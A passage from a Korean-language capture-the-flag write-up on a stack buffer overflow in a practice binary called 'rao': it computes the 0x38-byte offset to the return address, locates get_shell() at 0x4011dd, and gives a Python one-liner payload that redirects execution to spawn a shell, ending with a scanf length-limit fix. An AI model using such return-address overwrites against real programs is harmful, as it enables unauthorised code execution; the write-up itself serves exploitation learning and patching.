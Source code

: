 입력할 버퍼와 반환 주소 사이에 `0x38`만큼의 거리가 있으므로 그만큼을 쓰레기 값(dummy data)으로 채우고, 실행하고자 하는 코드의 주소를 입력하면 실행 흐름을 조작할거임

### **get_shell() 주소 확인**

![image](https://github.com/user-attachments/assets/7859a724-d220-464f-be36-84cc75760587)

get_shell 주소가 `0x4011dd` 임을 확인함

### **페이로드 구성**

이제 익스플로잇에 사용할 **페이로드(Payload)**를 구성해야함
![image](https://github.com/user-attachments/assets/6b4d48f5-b5f0-4a34-a5cf-9419c3ddecb2)

### **엔디언 적용**

구성한 페이로드는 적절한 **엔디언(Endian)**을 적용해서 프로그램에 전달해야 함
`0x4011dd` 이므로 변환하면
→ `\xdd\x11\x40\x00\x00\x00\x00\x00` 이렇게 된다

```bash
(python -c "import sys;sys.stdout.buffer.write(b'A'*0x30 + b'B'*0x8 + b'\xdd\x11\x40\x00\x00\x00\x00\x00')";cat)| ./rao
```

맞게 변환을 해주고 위 코드를 친 뒤 id를 요구하면

![image](https://github.com/user-attachments/assets/fdb74df5-949a-4ea1-9124-e1c16921161c)


셀 코드가 성공적으로 나왔다

위 예시 rao.c 코드에서 취약점을 패치하려면 

`scanf("%39s", buf);`로 입력 받는 길이에 제한을 주면 된다





